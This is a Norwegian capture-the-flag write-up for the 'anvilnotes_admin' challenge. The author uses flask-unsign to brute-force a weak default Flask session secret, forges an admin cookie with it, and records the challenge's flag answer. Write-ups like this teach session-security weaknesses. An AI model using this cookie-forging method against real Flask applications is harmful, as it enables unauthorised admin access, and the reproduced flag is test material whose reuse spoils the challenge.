 # 2.03_anvilnotes_admin

Stod noe i den første notaten om at han ville secure flask tokens. Og ser i cookies at jeg har en flask token som auth. Så lastet ned flask-unsign via pip3 og kjørte det på cookien som hadde flask token i seg.

```bash
┌──(toffe㉿kali)-[~]
└─$ flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImFkbWlOIn0.Y7N13g.6zY67y3r6J5jAHbOeXIrj4-nHZs'
[*] Session decodes to: {'username': 'admiN'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2176): -----BEGIN PRIVATE KEY-----.m2
[*] Attempted (2432): /-W%/97se0m46r@bv!6&b!l76a#-%
[*] Attempted (4480): 5#y2LF4Q8z8a52f30af11409c74288
[*] Attempted (25728): -----BEGIN PRIVATE KEY-----***
[+] Found secret key after 35712 attemptsWtem.UserPro
'This is an UNSECURE Secret. CHANGE THIS for production environments.'
```

Kunne da generere tokens som jeg bare ønsket:

```bash
┌──(toffe㉿kali)-[~]
└─$ flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'This is an UNSECURE Secret. CHANGE THIS for production environments.'
eyJ1c2VybmFtZSI6ImFkbWluIn0.Y7N5YQ.hZ2N9dpArz7Y3BrXqcgTlEMN3yw
```

Byttet med denne token og så var jeg logget inn som "admin" og så kjapt et flagg til.

```
Kategori: 2. Oppdrag
Oppgave:  2.03_anvilnotes_admin
Svar:     7d9299f21072f058d3c4d313c57b4093
Poeng:    10

Som admin har du kanskje tilgang til mer funksjonalitet?
```